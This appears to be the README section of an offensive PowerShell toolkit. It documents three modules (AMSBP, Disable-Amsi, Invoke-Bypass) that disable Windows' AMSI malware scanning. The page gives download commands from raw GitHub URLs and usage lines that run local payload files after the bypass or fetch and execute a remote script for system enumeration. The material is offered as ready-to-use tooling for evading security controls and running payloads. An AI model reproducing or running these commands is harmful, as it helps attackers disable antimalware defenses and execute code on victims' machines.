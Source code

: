 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Module Name
   <b><i>Invoke-Bypass.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process using well known techniques</i></b>|User Land|3 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

```powershell      
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
